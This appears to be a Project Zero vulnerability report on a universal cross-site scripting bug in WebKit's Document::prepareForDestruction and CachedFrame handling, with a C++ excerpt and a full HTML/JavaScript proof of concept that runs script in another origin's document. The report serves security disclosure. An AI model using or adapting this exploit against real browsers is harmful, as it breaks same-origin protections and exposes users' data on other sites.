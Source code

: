 # UXSS via Document::prepareForDestruction and CachedFrame

> Reported by lokihardt@google.com, Mar 3 2017

Here's a snippet of Document::prepareForDestruction

```cpp
void Document::prepareForDestruction()
{
    if (m_hasPreparedForDestruction)
        return;
    ...
    detachFromFrame();

    m_hasPreparedForDestruction = true;
}
```

`Document::prepareForDestruction` is called on the assumption that the document will not be used again with its frame. However, if a frame caching is made in `Document::prepareForDestruction`, the document's frame will be stored in a CachedFrame object that will reattach the frame at some point, and thereafter, the document's frame will be never detached due to `m_hasPreparedForDestruction`.

PoC:

```html
<body>
  Click anywhere.
  <script>
    function createURL(data, type = 'text/html') {
      return URL.createObjectURL(new Blob([data], {
        type: type
      }));
    }

    function waitFor(check, cb) {
      let it = setInterval(() => {
        if (check()) {
          clearInterval(it);
          cb();
        }
      }, 10);
    }

    window.onclick = () => {
      window.onclick = null;

      w = open(createURL(''), '', 'width=500, height=500');
      w.onload = () => {
        setTimeout(() => {
          let f = w.document.body.appendChild(document.createElement('iframe'));
          f.contentWindow.onunload = () => {
            f.contentWindow.onunload = null;

            w.__defineGetter__('navigator', () => new Object());

            let a = w.document.createElement('a');
            a.href = 'about:blank';
            a.click();

            setTimeout(() => {
              w.history.back();
              setTimeout(() => {
                let d = w.document;
                w.location = 'javascript:' + encodeURI(`"<script>location = 'https://abc.xyz/';</scrip` + `t>"`);

                let it = setInterval(() => {
                  try {
                    w.xxxx;
                  } catch (e) {
                    clearInterval(it);

                    let a = d.createElement('a');
                    a.href = 'javascript:alert(location);';
                    a.click();
                  }
                }, 10);
              }, 100);
            }, 100);
          };

          w.location = 'javascript:""';
        }, 0);
      };

    }
  </script>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1163
